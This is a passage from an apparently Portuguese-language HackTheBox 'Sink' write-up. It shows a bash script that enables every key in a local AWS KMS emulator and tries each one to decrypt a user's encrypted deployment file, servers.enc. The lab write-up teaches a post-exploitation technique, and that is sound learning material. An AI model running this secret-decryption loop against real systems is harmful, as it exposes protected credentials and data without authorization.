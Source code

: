 <img src="/img/htb/htb-sink-26.png">

Encontramos várias keys, para não tentarmos uma por uma, podemos fazer um script para testar uma de cada vez.

```bash
#!/bin/bash

for KEY in $(aws --endpoint-url="http://127.0.0.1:4566/" kms list-keys | grep KeyId | awk -F\" '{ print $4 }')
        do 
                aws --endpoint-url="http://127.0.0.1:4566/" kms enable-key --key-id "${KEY}"
                aws --endpoint-url="http://127.0.0.1:4566/" kms decrypt --key-id "${KEY}" --ciphertext-blob "fileb:///home/david/Projects/Prod_Deployment/servers.enc" --encryption-algorithm "RSAES_OAEP_SHA_256" --output "text" --query "Plaintext"
done
```
Ao rodar o script, ele tentará decriptar o arquivo.
